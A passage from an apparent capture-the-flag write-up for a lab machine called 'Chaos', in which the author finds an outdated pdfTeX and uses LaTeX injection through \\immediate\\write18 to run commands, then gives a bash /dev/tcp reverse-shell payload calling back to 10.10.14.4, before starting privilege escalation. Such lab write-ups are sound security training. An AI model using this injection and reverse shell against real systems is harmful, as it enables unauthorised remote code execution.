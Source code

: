 Sending requests doesn't seem to do anything, so I took a look at it within Burpsuite:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

The above reveals that it is running an outdated version of pdfTeX. There are multiple methods of which we can use LaTeX injection to get RCE:

{% embed url="https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#rce" %}

I used `\immediate\write18\{id}` to test, and it worked:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using `\immediate\write18{bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'}` will get us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Ayush Shell --> Shell Escape

There are 2 users present within the machine:

```
www-data@chaos:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Jun 30  2022 .
drwxr-xr-x 22 root  root  4096 Jul 12  2022 ..
drwx------  5 ayush ayush 4096 Jul 12  2022 ayush
drwx------  5 sahay sahay 4096 Jul 12  2022 sahay
```
